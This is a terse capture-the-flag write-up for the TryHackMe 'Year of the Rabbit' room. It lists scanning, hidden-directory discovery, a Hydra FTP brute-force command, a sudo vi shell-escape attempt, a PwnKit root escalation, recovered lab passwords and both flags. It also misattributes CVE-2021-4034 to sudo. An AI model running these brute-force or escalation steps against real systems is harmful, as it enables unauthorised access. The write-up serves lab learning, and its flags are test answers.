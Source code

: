 ## YearOfTheRabbit-thm

## Scanning Started
Apache version 2.4.10(Outdated)
  => Nmap:
## Openports: 
	   22 = ssh
	   80 = http
	   21 = ftp
## Directory Busting:
		assets => styles.css => /sup3r_s3cr3t_fl4g.php
	 	The secret Directory will be found by burp suite in one the responses
	 	secret Directory: /WExYY2Cv-qU => Hot_babe.png => crack using strings

#	 strings Hot_babe.png =>
a username = ftpuser
and a number of passwords.



##	Used Hydra to Crack FTP using Credentials from the hidden Directory

		hydra -l ftpuser -P passwords ftp://10.10.103.7


	[21][ftp] host: 10.10.103.7   login: ftpuser   password: 5iez1wGXKfPKQ

## And therefore Discovered a new set of Languages BrainF*ck
	Go online Search a good compiler for the language
	Result:

	User: eli

	Password: DSpDiM1wAEwid


# Linux Priv 

Ran linpeas.sh

## Possible Exploits:
	1) Sudo version 1.8.10p3 

	=> Vulnerable to CVE-2021-4034





	2) Found an Interesting File

	-rw-r--r-- 1 root root 138 Jan 23  2020 /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!

## Password For Gwendoline Found in 
	/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!

"Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just *MniVCQVhQHUNI*
Honestly!

Yours sincerely
   -Root"

## Flag => user.txt
	THM{1107174691af9ff3681d2b5bdb5740b1589bae53}

## Linux priv esc from Gwen's ID



	sudo /usr/bin/vi -c ':!/bin/sh' /dev/null (Tried but was not a success)

	So as a last resort Performed the CVE-2021-4034



## root.txt
	THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
